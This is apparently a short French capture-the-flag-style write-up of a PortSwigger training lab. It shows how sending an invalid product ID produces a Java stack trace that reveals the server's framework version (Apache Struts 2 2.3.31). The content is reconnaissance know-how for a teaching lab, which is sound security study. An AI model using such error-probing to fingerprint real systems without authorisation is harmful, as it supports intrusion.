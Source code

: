 # Lab

https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages

## Payload

Ici on a juste a faire pop une erreur pour savoir quel framework est utilisé.

On peut aller sur la page d'un produit et mettre un identifiant qui n'existe pas `https://0acf00de0468d97181d1c74500f600ff.web-security-academy.net/product?productId=ssss`

```
Internal Server Error: java.lang.NumberFormatException: For input string: "s"
	at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:67)
	at java.base/java.lang.Integer.parseInt(Integer.java:668)
	at java.base/java.lang.Integer.parseInt(Integer.java:786)
	at lab.b.u.v.t.a(Unknown Source)
	at lab.s.k.n.s.g(Unknown Source)
	at lab.s.k.h.c.j.g(Unknown Source)
	at lab.s.k.h.y.lambda$handleSubRequest$0(Unknown Source)
	at e.l.q.s.lambda$null$3(Unknown Source)
	at e.l.q.s.p(Unknown Source)
	at e.l.q.s.lambda$uncheckedFunction$4(Unknown Source)
	at java.base/java.util.Optional.map(Optional.java:260)
	at lab.s.k.h.y.t(Unknown Source)
	at lab.server.a.p.z.L(Unknown Source)
	at lab.s.k.d.l(Unknown Source)
	at lab.s.k.d.L(Unknown Source)
	at lab.server.a.p.e.j.k(Unknown Source)
	at lab.server.a.p.e.w.lambda$handle$0(Unknown Source)
	at lab.b.d.u.i.V(Unknown Source)
	at lab.server.a.p.e.w.O(Unknown Source)
	at lab.server.a.p.o.b(Unknown Source)
	at e.l.q.s.lambda$null$3(Unknown Source)
	at e.l.q.s.p(Unknown Source)
	at e.l.q.s.lambda$uncheckedFunction$4(Unknown Source)
	at lab.server.re.F(Unknown Source)
	at lab.server.a.p.o.U(Unknown Source)
	at lab.server.a.h.o.R(Unknown Source)
	at lab.server.a.q.D(Unknown Source)
	at lab.server.a.c.D(Unknown Source)
	at lab.server.rw.d(Unknown Source)
	at lab.server.rw.Z(Unknown Source)
	at lab.k.q.lambda$consume$0(Unknown Source)
	at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1136)
	at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:635)
	at java.base/java.lang.Thread.run(Thread.java:833)

Apache Struts 2 2.3.31
```

Framework : `Apache Struts 2 2.3.31`